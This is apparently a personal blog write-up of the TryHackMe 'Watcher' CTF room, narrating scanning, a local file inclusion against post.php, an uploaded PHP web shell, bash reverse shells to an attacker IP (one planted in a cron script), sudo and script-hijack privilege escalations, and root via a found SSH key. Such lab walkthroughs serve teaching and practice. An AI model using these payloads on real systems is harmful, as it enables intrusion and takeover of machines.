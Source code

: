 ```yaml
---
title: Watcher | Tryhackme write up
date: 2022-05-08 18:30:00 +0200
categories: [Blog, Writeup]
tags: [writeup, tryhackme, pentesting, penetration, testing, hacking, ethical, sudo privesc, fuzzing, enumeration, local, file, inclusion, LFI, cron job,watcher, medium]
comments: false

---
```


Hi! this is my take on Watcher CTF from TryHackme, the room is simple but very entertaining.
At first it seemed that it was going to be too easy but I liked that there were several privilege escalations and all of them were different.

These are some topic you will see in this room: 
- Directory fuzzing
- Local file inclusion
- Upload malicious file
- Abuse of sudo permissions for privilege escalation
- Abuse of cron job for privilege escalation
-
# Scanning

To know what os I'm facing i start by running **ping -c 1 <VICTIMIP>**, thanks to the TTL i can guess that this is a Linux box.
I continue by running **Nmap** three times,I am using Syn scan against the whole port range of the victim machine,
which shows me that there are three open ports, 21, 22 and 80.
![First Nmap scan for open ports](/assets/img/watcher/001.PNG)
_Nmap scanning for open ports_

Knowing this I re-launch it with the C and V scripts to find out version and service.
![Second Nmap scan for versions](/assets/img/watcher/002.PNG)
_**-sCV** scan to know versions_
And finally with the **http-enum** script, which uses a small dictionary to fuzz well known routes. 
![Second Nmap scan for versions](/assets/img/watcher/002.PNG)
_**-sCV** scan to know versions_
![Http-enum results](/assets/img/watcher/003.PNG)
_http-enum script results_

There's nothing weird and the discovery of robots.txt its interesting so I'm checking the web and robots.txt now.
![Website homepage](/assets/img/watcher/004.PNG)
_Website homepage_

The web is running with Apache and seems like a Jekyll blog, some buttons are not even working so I'm going straight to robots.txt.
![robots.txt contents](/assets/img/watcher/005.PNG)
_robots.txt contents_
There are 2 file routes inside robots.txt the first one is accessible and it's the first flag, the second one requires permissions that i dont have.
![First flag](/assets/img/watcher/006.PNG)
_First flag_

Looking again at the home page, I see something suspicious in the links of each post, it seems that the web could be vulnerable to LFI(Local File Inclusion)
![Web could be vulnerable to LF](/assets/img/watcher/007.PNG)
_Vulnerable to LFI?_

I'm trying to list /etc/passwd and for that i'm using this route: http://VICTIMIP/post.php?post=../../../../../../etc/passwd. It works!

![/etc/passwd content](/assets/img/watcher/008.PNG)
_Content of /etc/passwd_

I can see that there's three users: **toby, mat and will**.

# Gaining access

I start by showing **/secret_file_do_not_read.txt**, the file i couldn't read before because I had no permissions.
But now with LFI it's easy to see it's contents:
![/secret_file_do_not_read.txt contents](/assets/img/watcher/009.PNG)
_/secret_file_do_not_read.txt contents_

Reading this, I already know what i have to do, i have to login into ftp and try upload a malicious .php file because now i know
where there route to that file is.

The credentials were valid, and now I'm login into ftp, where the **second flag** is located, and a **files** directory next to it.
![Ftp contents](/assets/img/watcher/010.PNG)
_Ftp contents_

I'm next writing my malicious file and uploading it into this files folder.
This is the code I'm using:
```php
<?php
system($_GET['cmd']) 
?>
```
This code permits us to run a command with the GET request variable 'cmd'.
The upload is completed, and i know where the file exactly is.
I show the file with the LFI i used before, running **whoami** with our new cmd variable.
![Remote code execution working](/assets/img/watcher/011.PNG)
_Remote code execution working_

To get a reverse shell, im gonna run this with my new RCE method, and I'm url encoding it:
```bash
bash -c 'bash -i >& /dev/tcp/MYIP/443 0>%1'
```
At the same time I'm listening port 443 with netcat.
```bash
nc -lnvp 443
```
With this i gained access as www-data
![Access gained as www-data](/assets/img/watcher/012.PNG)
_Access gained as www-data_

# Privilege escalation

## First privilege escalation

After treating the terminal to turn it into an interactive one, I run **sudo -l** and see that i can run any command i want as toby without password,
so i run **sudo -u toby bash** and I'm now toby.

![privesc toby](/assets/img/watcher/013.PNG)
_Easy privesc to toby_

## Second privilege escalation

I continue by visiting toby's home and there's a note next to flag 3 and a directory called jobs. This is the content of note.txt
![note.txt content](/assets/img/watcher/014.PNG)
_note.txt content_

There's a cron job running and i guess it's running into jobs directory. There's a file inside jobs directory called **cow.sh**,
it's a script that backups an image into /tmp directory, but i have write permissions, so i change it's contents to this:
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/MYIP/444 0>%1'
```
I'm using port 444 now as I'm still using 443 for the reverse shell I'm actually using. After listening with netcat and waiting a minute, I get a reverse shell as Mat.
![privesc mat](/assets/img/watcher/015.PNG)
_Privesc to Mat_

## Second privilege escalation

As before, the first two things i do is **sudo -l** and visiting my home. I can run python3 with a specific file as will and that file is inside my home.
v![sudo mat](/assets/img/watcher/016.PNG)
_Sudo for mat_

The code of this will_script let's me run three commands, ls, id and cat /etc/passwd, and it does it by calling a function from another script cmd.py.
But I'm realizing that I'm the owner of cmd.py and i can write inside.
![Code permissions](/assets/img/watcher/017.PNG)
_Code of both scripts and permissions_

I'm editing cmd.py code to run a bash instead ls -lah when using 1 as argument, and because i can run it as will, this bash will be as will too.
![new cmd.py](/assets/img/watcher/018.PNG)
_New cmd.py code_
And it works.
![privesc will](/assets/img/watcher/019.PNG)
_Privilege escalation to will_

## Last privilege escalation to root
I struggled a bit with this privilege escalation because I lost like 15min investigating around **adm** group and checking log files from /var/log,
but after a bit i realized that there's nothing there and after cheking some things like sudo -l, SUID files, I found a backups directory inside /opt.
There's a file named key.b64 inside, I'm decoding the content with base 64 and a private key is showing.
![Private ssh key found](/assets/img/watcher/020.PNG)
_Private ssh key found_

After putting the key into an id_rsa file and using it like this from my terminal: **ssh -id id_rsa root@VICTIMIP**
![Access as root](/assets/img/watcher/021.PNG)
_Access as root_

I got access as root!. Flags 4,5,6 and 7 was in /home/toby, /home/mat, /home/will and /root directories respectively, while flag 3 was in /var/www/html/

See you soon and enjoy this nice CTF!
